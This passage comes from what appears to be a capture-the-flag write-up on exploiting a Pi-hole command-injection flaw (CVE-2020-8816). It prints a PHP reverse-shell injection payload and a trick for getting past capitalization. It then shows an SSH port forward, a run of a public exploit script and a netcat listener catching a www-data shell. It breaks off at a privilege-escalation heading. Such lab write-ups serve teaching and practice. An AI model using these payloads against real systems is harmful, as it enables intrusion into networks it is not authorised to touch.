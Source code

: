 
here's an example of what the typical injection would look like:

```php
	aaaaaaaaaaaa&&php -r ‘$sock=fsockopen(“10.1.0.9”,2256);exec(“/bin/sh -i <&3 >&3 2>&3”);’
```

this means our injection would be capitalized, so we can use environment variables instead to overcome this pitfall by appending `$PATH` to a MAC address on a new static DHCP lease...

```
aaaaaaaaaaaa$PATH
```

which displays...

```
/opt/pihole:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
the lower-case characters "p", "h", and "r" is all we need to write "php -r"

okay so without digging any further i find an exploit for `CVE-2020-8816`
`https://github.com/AndreyRainchik/CVE-2020-8816/`

python isnt installed in the container and cant run it remotely, so i port forward Pi-hole through SSH and run it locally

```bash
> ssh -NL 8080:127.0.0.1:8080 bryan@10.10.10.200
```
then i spin up a listener on port `9999` to get a reverse shell after running the exploit...

```bash
> python3 holeinpi.py http://127.0.0.1:8080 admin 10.10.14.9 9999     

Attempting to verify if Pi-hole version is vulnerable                                               
Logging in...                                                                                       
Login succeeded                                                                                     
Grabbing CSRF token
Attempting to read $PATH
Pihole is vulnerable and served's $PATH allows PHP
Sending payload
```

```bash
> nc -lnvp 9999

listening on [any] 9999 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.200] 60140
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
we are now user `www-data`

## Elevate to root
